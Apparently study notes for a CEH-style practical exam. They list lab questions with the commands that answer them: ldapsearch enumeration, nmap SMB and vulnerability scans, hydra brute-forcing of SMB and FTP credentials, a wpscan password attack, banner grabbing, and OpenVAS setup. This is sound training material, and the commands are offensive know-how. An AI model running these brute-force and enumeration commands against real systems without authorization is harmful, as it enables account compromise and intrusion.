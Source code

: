 - Perform LDAP enumeration on the target network and find out how many user accounts are associated with the domain. 
    1. `ldapsearch -x -h 10.10.10.25 -b "DC=CEHORG,DC=com" "objectclass=user" cn`

- Perform an LDAP Search on the Domain Controller machine and find out the latest version of the LDAP protocol. 
    1. `ldapsearch -h 10.10.10.25 -x -s base namingcontexts`

- Check whether the Message signing feature is enabled or disabled on SMB.
    1. `nmap -p 445 -A -T5 -sV 192.168.0.51`

- Crack the SMB credentials for user Henry
    1. `hydra -l henry -P /home/passlist.txt 192.168.0.1 smb`
    2. `smbclient //192.168.0.1/share`
    3. `smbclient -L 192.168.0.1`

- Crack the FTP credentials
    1. `hydra -L Username.txt -P Password.txt 10.10.1.11 ftp`

- Perform Banner grabbing on the web application movies.cehorg.com and find out the ETag of the respective target machine. 
    1. `telnet movies.cehorg.com 80`
    2.  Add values
        - `GET / HTTP/1.0`
        - Double Enter to Start

- Identify the load balancing service used by eccouncil.org.
    1. `lbd eccouncil.org`

- Perform a bruteforce attack on www.cehorg.com and find the password of user adam.
    1. `wpscan --url http://movies.cehorg.com -U adam -P passwords.txt`

# Vulnerability Assessment

- Find out the base score and impact of the vulnerability.
    1. Google the CVE

- Identify the number of vulnerabilities with severity level as "medium".
    1. `sudo gvm-check-setup`
    2. `sudo gvm-start`
    3. Go to `Scans > Tasks`
    4. Click `New Task`
    5. Set:
        1. `Name: "DC"`
        2. `Target: 10.10.10.25`
    6. Save and Start the scan

- What is the severity score of a vulnerability that indicates the End of Life of a web development language platform?

    1. `nmap -Pn --script vuln 172.20.0.16`
    2. Copy the cve number and get the severity score using google.

- Identify the number of live png files in images folder.
    1. Use `curl http://movies.cehorg.com | grep .png | wc -l`
    OR
    1. Use owaspzap
